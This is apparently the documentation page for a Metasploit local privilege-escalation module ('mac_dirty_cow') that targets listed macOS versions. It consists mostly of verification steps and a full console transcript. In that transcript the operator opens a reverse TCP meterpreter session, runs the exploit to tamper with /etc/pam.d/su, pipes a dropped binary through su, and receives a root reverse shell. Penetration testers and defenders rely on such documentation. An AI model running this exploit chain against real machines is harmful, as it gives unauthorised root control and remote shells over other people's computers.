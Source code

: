 ## Vulnerable Application
This vulnerability works against macOS 13.0.1 - 13.0 and macOS 12.6.1 - 10.15. This vulnerability is the
macOS equivalent of the Dirty Cow vulnerability and allows for an unprivileged user to execute code as root.


## Verification Steps
1. Start msfconsole.
1. Do: `use multi/handler`.
1. Set the `RHOST`, `PAYLOAD` options.
1. Do: `run`.
1. Execute the payload on the machine and obtain a user session.
1. Do: `use exploit/osx/local/mac_dirty_cow`
1. Set the `SESSION`, `LHOST`, `LPORT` options.
1. Do: `run`.
1. Receive a shell session as the `root` user.

## Scenarios
### Mac OSX (Venture 13.0)
```
msf > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf exploit(multi/handler) > set payload osx/x64/meterpreter/reverse_tcp
payload => osx/x64/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Transmitting first stager...(214 bytes)
[*] Transmitting second stager...(49152 bytes)
[*] Sending stage (810648 bytes) to 172.16.199.130
[*] Meterpreter session 1 opened (172.16.199.1:4444 -> 172.16.199.130:49801) at 2023-02-01 16:10:14 -0500

meterpreter > bg
[*] Backgrounding session 1...
msf exploit(multi/handler) > use exploit/osx/local/mac_dirty_cow
[*] Using exploit/osx/local/mac_dirty_cow
msf exploit(osx/local/mac_dirty_cow) > set session 1
session => 1
msf exploit(osx/local/mac_dirty_cow) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf exploit(osx/local/mac_dirty_cow) > set lport 4446
lport => 4446
msf exploit(osx/local/mac_dirty_cow) > run

[*] Started reverse TCP handler on 172.16.199.1:4446
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Writing '/tmp/.wNDx86' (17204 bytes) ...
[*] Writing '/tmp/.TKIGnTw0l' (51392 bytes) ...
[*] Executing exploit '/tmp/.TKIGnTw0l /etc/pam.d/su /tmp/.DfoZanro'
[*] Exploit result:
Testing for 10 seconds...
RO mapping was modified
[*] Running cmd:
echo '/tmp/.wNDx86 & disown' | su
[*] Executing exploit (restoring) '/tmp/.TKIGnTw0l /etc/pam.d/su /tmp/.aclP0u'
[*] Exploit result:
Testing for 10 seconds...
RO mapping was modified
[+] Deleted /tmp/.wNDx86
[+] Deleted /tmp/.aclP0u
[+] Deleted /tmp/.DfoZanro
[+] Deleted /tmp/.TKIGnTw0l
[*] Command shell session 2 opened (172.16.199.1:4446 -> 172.16.199.130:49802) at 2023-02-01 16:10:54 -0500

options
/bin/sh: line 29: options: command not found
id
uid=0(root) gid=0(wheel) groups=0(wheel),1(daemon),2(kmem),3(sys),4(tty),5(operator),8(procview),9(procmod),12(everyone),20(staff),29(certusers),61(localaccounts),80(admin),33(_appstore),98(_lpadmin),100(_lpoperator),204(_developer),250(_analyticsusers),395(com.apple.access_ftp),398(com.apple.access_screensharing),399(com.apple.access_ssh),400(com.apple.access_remote_ae),701(com.apple.sharepoint.group.1)
uname -a
Darwin msfusers-Mac.local 22.0.0 Darwin Kernel Version 22.0.0: Tue May 24 20:31:35 PDT 2022; root:xnu-8792.0.50.111.3~5/RELEASE_X86_64 x86_64
```
